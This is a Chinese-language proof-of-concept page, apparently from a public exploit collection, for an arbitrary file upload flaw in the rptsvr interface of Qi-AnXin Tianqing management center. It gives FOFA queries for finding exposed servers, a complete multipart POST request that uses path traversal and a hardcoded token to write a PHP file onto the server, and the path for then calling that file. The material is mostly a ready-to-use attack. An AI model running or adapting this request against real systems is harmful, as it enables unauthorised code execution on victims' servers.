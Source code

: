 ## 奇安信天擎rptsvr任意文件上传

奇安信 天擎管理中心 <=V6.7.0.4130 版本的rptsvr接口存在任意文件上传漏洞，可上传恶意至服务器，执行脚本文件。

## fofa
```
banner="QiAnXin web server" || banner="360 web server"  || body="appid\":\"skylar6" || body="/task/index/detail?id={item.id}" || body="已过期或者未授权，购买请联系4008-136-360"
```

## poc
```
POST /rptsvr/upload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1944.0 Safari/537.36
Connection: close
Content-Length: 414
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.5
Content-Type: multipart/form-data;boundary=---------------------------55433477442814818502792421460
Upgrade-Insecure-Requests: 1

-----------------------------55433477442814818502792421460
Content-Disposition: form-data; name="uploadfile"; filename="../../../application/api/controllers/TController2.php"
Content-Type: text/x-python

<?php
phpinfo();
?>
-----------------------------55433477442814818502792421460
Content-Disposition: form-data; name="token"

skylar_report
-----------------------------55433477442814818502792421460
```

![ee8643c18675a73d8d0a327cb110adde](https://github.com/wy876/POC/assets/139549762/e202d50b-2860-47b8-8670-07b015a5cc7f)

#### 访问上传文件路径如下：
`http://xxxx/application/api/controllers/TController2.php`

![099c23949f851175f1e3306c0c102637](https://github.com/wy876/POC/assets/139549762/73b370c6-2c4f-4422-ada3-33ebf4a952b2)

